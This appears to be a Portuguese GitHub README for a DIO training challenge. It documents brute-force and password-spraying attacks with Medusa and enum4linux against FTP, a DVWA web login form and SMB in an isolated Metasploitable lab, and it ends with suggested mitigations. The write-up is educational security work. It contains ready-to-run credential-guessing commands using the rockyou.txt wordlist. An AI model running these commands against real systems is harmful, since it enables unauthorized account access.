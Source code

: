 # Medusa-Kali
Desafio DIO: Força Bruta com Kali Linux e Medusa
Esse modelo cobre:

* Introdução e contexto
* Estrutura do ambiente (com topologia)
* Ataques realizados: FTP, DVWA (formulário web), SMB
* Comandos utilizados
* Wordlists
* Resultados e capturas de tela (use a pasta `/images`)
* Mitigações sugeridas
* Conclusão

Este repositório documenta o projeto prático proposto no desafio da DIO, focando na simulação de ataques de força bruta em ambientes controlados utilizando as ferramentas Kali Linux, Medusa e máquinas vulneráveis como Metasploitable 2 e DVWA. O objetivo é compreender vulnerabilidades comuns, testar autenticações inseguras e propor boas práticas de segurança.

Objetivos

* Compreender o funcionamento de ataques de força bruta em diferentes serviços (FTP, Web, SMB).
* Configurar e utilizar o Medusa para automatizar tentativas de autenticação.
* Documentar processos técnicos de forma clara e estruturada.
* Propor medidas de mitigação realistas e eficazes.
* Utilizar o GitHub como portfólio técnico.

Ambiente de Testes

| Componente  | Descrição                                   |
| ----------- | ------------------------------------------- |
| Host        | Kali Linux (VM)                             |
| Alvo        | Metasploitable 2 + DVWA (VM)                |
| Rede        | Host-Only (VirtualBox)                      |
| Ferramentas | Medusa, curl, Hydra (opcional), rockyou.txt |

Topologia:


[ Kali Linux ] ←(Host-only)→ [ Metasploitable 2 + DVWA ]



Ataques Realizados

1.Ataque FTP com Medusa

Comando:

medusa -h 192.168.56.105 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ftp -t 50

Explicação:

* `-h`: IP do alvo
* `-u`: usuário
* `-P`: caminho da wordlist
* `-M`: módulo (FTP)
* '-t': ativa a opção multithread que torna mais ágil e rapida a execução do comando.

* obs: Editado a wordlist rockyou.txt para inserir no começo da lista a senha msfadmin apenas para agilizar os testes.
* vim /usr/share/wordlists/rockyou.txt

Resultado:
Credenciais descobertas: `msfadmin:msfadmin`
Acesso validado via `ftp`.

2. Força Bruta em Formulário Web (DVWA)

Pré-requisitos:
Configurar DVWA para **segurança: LOW

Comando com Medusa:

medusa -h 192.168.56.105 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m FORM \
  -e ns -T 5 -w 5 -b -f \
  -m DIR:/dvwa/login.php -m FORM:username=^USER^&password=^PASS^&Login=Login \
  -m DENY:"Login failed"

Explicação:

* Ataque no formulário de login da DVWA
* O parâmetro `DENY` identifica falhas com base na resposta da página

Resultado:
Login com senha válida foi identificado.

3.Password Spraying no SMB com Enum4Linux

Etapa 1: Enumeração de usuários


enum4linux -U 192.168.56.105


Etapa 2: Ataque SMB


medusa -h 192.168.56.101 -U users.txt -P rockyou.txt -M smbnt


Resultado:
Acesso obtido via SMB com usuário válido



Wordlists

Utilizada a wordlist **rockyou.txt**, já inclusa no Kali Linux, que conta com vários parâmetros sem a necessidade real de criar uma lista ampla:


/usr/share/wordlists/rockyou.txt


Obs: execute `gunzip rockyou.txt.gz` se necessário.



Evidências (Capturas de Tela)

As capturas estão na pasta [`/images`](./images):

`ftp_attack.png`
`dvwa_attack.png`
`smb_enum.png`
`success_login.png`

Recomendações de Mitigação

* Desabilitar serviços desnecessários (ex: FTP, Telnet).
* Aplicar bloqueios temporários após múltiplas tentativas falhas (ex: fail2ban).
* Implementar autenticação multifator (MFA).
* Utilizar senhas fortes e complexas, evitando padrões comuns.
* Atualizar e monitorar logs de autenticação regularmente.

Conclusão

Este projeto demonstrou, em um ambiente controlado, como ferramentas de ataque como o Medusa podem ser utilizadas para testar a segurança de serviços vulneráveis. A experimentação com wordlists e diferentes protocolos mostrou a importância da boa gestão de senhas, mitigações ativas contra ataques automatizados e que treinamento de pessoal com uma politica de seginfo bem estruturada ainda assim pode não ser suficiente para conter incidentes, mas diminui a probabilidade de sucesso de um ataque.

Referências

* [Kali Linux Tools](https://tools.kali.org/)
* [Medusa GitHub](https://github.com/jmk-foofus/medusa)
* [DVWA GitHub](https://github.com/digininja/DVWA)
* [Metasploitable 2](https://sourceforge.net/projects/metasploitable/)
* [rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)



Autor

Carlos Eduardo Silva Bertazzoli
Projeto desenvolvido para o desafio da [Digital Innovation One (DIO)](https://www.dio.me)

